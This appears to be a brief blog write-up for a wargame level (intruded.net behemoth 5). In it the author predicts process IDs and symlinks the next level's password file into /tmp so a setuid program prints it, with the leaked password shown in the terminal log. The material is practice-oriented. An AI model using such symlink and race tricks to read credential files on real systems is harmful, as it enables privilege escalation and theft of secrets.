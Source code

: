 Title: intruded.net, behemoth: level 5
Date: 2011/10/01 21:24
Author: Ken Ko
Tags: intruded.net, LD_PRELOAD, behemoth

Kind of lame, this one. 

I tried to use the LD_PRELOAD method to have a repeatable getpid() call, but it would only appear to work under gdb and ltrace; very strange.

So, let's go with a more brute force approach:

[codebox 1]

Now, to use it:

<code>
level5@behemoth:/tmp$ ./zpid
2327
level5@behemoth:/tmp$ ./zpid
2328
level5@behemoth:/tmp$ ln -s /home/level6/.passwd /tmp/2331
level5@behemoth:/tmp$ /wargame/level5
PID not found!
level5@behemoth:/tmp$ /wargame/level5
Finished sleeping, fgetcing
I47l6DVn
level5@behemoth:/tmp$
</code>

Wasted a lot of time on that LD_PRELOAD. 
Oh well; should really figure out why that didn't work. 

